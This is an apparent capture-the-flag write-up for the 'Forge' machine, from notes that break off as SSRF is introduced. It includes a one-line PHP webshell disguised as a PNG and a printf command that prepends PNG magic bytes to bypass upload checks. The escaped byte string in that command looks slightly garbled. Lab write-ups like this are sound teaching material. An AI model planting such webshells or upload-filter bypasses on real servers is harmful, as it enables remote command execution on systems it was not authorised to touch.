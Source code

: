 ![[Pasted image 20220127062054.png]]

There are two ways for us to upload images to the website, via local file and via URL. I chose to start by examining the local file upload

## local file
When we upload an image, a link is returned to us. When the link is clicked we are able to view the image. 

![[Pasted image 20220127062324.png]]

### testing common image upload vulnerabilities
When I began working on this box, I first tested for common image upload vulnerabilities. 

### php webshell
I tried uploading a php webshell with the extension changed to png

FIle:  web.png
Contents:
```php
<?php
	echo system($_GET['cmd']);
?>
```

Annnnd we get the following error when trying to view the uploaded image

![[Pasted image 20220127062221.png]]

Before we move on though lets try one more thing, appending the png magic bytes onto our file. If you Are unfamiliar with Magic bytes, they are series of 8 bytes at the start of each file that identify the file type. For more information, check out this article [here](https://medium.com/@d.harish008/what-is-a-magic-byte-and-how-to-exploit-1e286da1c198)

The magics bytes for a png file are `89 50 4E 47 0D 0A 1A 0A` 

we can append them onto web.png with the following command.
```bash
$printf '\x89\x50\x4e\x47\x0dx\0a\x1a\x0a' | cat - web.png > newWeb.png
```

Lets try uploading the new file

Once again we get the same error.

At this point I figured that the vulnerability must not have to do with a webshell, so I moved onto upload an image with a URL.

## VIA URL
As a rule of thumb, whenever a website takes in a URL as a parameter, the first thing to check is SSRF. Another big hint here is the name of the machine, Forge, indicating that the vulnerability will probably be based around SSRF. 

So what is SSRF? SSRF or Server Side Request Forgery is when the user provides a crafted link as a parameter to access files that should otherwise not be visable to the user. 
